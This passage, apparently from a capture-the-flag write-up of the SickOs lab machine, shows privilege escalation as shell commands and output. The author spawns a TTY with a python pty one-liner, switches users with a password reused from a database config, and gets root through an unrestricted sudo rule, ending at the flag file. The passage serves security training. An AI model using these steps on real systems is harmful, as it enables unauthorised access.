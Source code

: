 ```php
define ('DELAY_FIRST_AFTER', 3);

// Secure token expiry time (prevents CSRF attacks, etc.)
// If backend user does nothing for this time (eg. click some link) 
// his token will expire with appropriate notification
// Default: 900 (15 minutes)
define ('SECURE_TOKEN_EXPIRY', 900);  // 15 minutes
```

From `/etc/passwd/` we know that **sickos** user exists in this machine. Trying to su with a credential from the database connection. 

```bash
www-data@SickOs:/usr/lib/cgi-bin$ su sickos
su sickos
su: must be run from a terminal
www-data@SickOs:/usr/lib/cgi-bin$ python -c 'import pty; pty.spawn("/bin/bash")'
<i-bin$ python -c 'import pty; pty.spawn("/bin/bash")'                       
www-data@SickOs:/usr/lib/cgi-bin$ su sickos
su sickos
Password: john@123

sickos@SickOs:/usr/lib/cgi-bin$ id
id
uid=1000(sickos) gid=1000(sickos) groups=1000(sickos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

Hm... cannot doing su because we are not running from terminal, we need to spawn tty with bash session. After that, su again and it showing us id is changed to sickos from www-data. 

Escalating privilege with misconfigured `sudo`. 

```bash
sickos@SickOs:/usr/lib/cgi-bin$ sudo -l
sudo -l
[sudo] password for sickos: john@123

Matching Defaults entries for sickos on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:/usr/lib/cgi-bin$ sudo su
sudo su
root@SickOs:/usr/lib/cgi-bin# 
```

In the end, we can access flag file as mentioned in the instruction.

```bash
root@SickOs:/usr/lib/cgi-bin# cd /root 
cd /root
root@SickOs:~# ls -lah
ls -lah
total 40K
drwx------  3 root root 4.0K Dec  6  2015 .
drwxr-xr-x 22 root root 4.0K Sep 22  2015 ..
-rw-r--r--  1 root root   96 Dec  6  2015 a0216ea4d51874464078c618298b1367.txt
-rw-------  1 root root 3.7K Dec  6  2015 .bash_history
-rw-r--r--  1 root root 3.1K Apr 19  2012 .bashrc
drwx------  2 root root 4.0K Sep 22  2015 .cache
-rw-------  1 root root   22 Dec  5  2015 .mysql_history
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-rw-------  1 root root 5.2K Dec  6  2015 .viminfo
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt
```